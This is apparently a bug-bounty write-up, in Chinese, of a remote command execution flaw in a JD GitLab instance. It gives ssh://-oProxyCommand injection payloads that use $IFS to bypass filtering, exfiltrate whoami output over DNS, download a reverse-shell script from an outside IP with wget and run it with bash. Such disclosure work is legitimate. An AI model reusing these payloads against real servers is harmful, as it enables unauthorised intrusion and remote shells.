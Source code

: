 ```yaml
---
layout: post
title:  "jd众测gitlab远程命令执行"
---
```

# jd众测gitlab远程命令执行


http://monitor-fb.jd.com/users/sign_in 首先注册一个账号ahtest
![图片1](https://github.com/white-cell/white-cell.github.io/blob/master/img/_post/5/图片%201.jpg)<br />
然后创建一个项目，创建方式选择Repo by URL
![图片2](https://github.com/white-cell/white-cell.github.io/blob/master/img/_post/5/图片%202.jpg)<br />
这里由于gitlab本身的漏洞可以使用ssh://,这里可以绕过执行命令
poc: ssh://-oProxyCommand=要执行的命令/a
注意这里不能出现空格还有部分特殊字符，下面为fuzz最终绕过poc
ssh://-oProxyCommand=ping$IFS’jd.1.rs12.ga’/a
![图片3](https://github.com/white-cell/white-cell.github.io/blob/master/img/_post/5/图片%203.jpg)<br />
![图片4](https://github.com/white-cell/white-cell.github.io/blob/master/img/_post/5/图片%204.jpg)<br />
查看我的dnslog，成功收到dns解析请求日志
![图片5](https://github.com/white-cell/white-cell.github.io/blob/master/img/_post/5/图片%205.jpg)<br />
成功执行命令
查看是否为root的poc：ssh://-oProxyCommand=wget$IFS$9$(whoami).1.rs12.ga/a
讲远程站点的index.html内容换成wget下载反弹shell的脚本
ssh://-oProxyCommand=wget$IFS$945.78.54.37$IFS-O1.sh/a 
![图片6](https://github.com/white-cell/white-cell.github.io/blob/master/img/_post/5/图片%206.jpg)<br />
ssh://-oProxyCommand=bash$IFS'1.sh'/a 反弹回shell
![图片7](https://github.com/white-cell/white-cell.github.io/blob/master/img/_post/5/图片%207.jpg)<br />
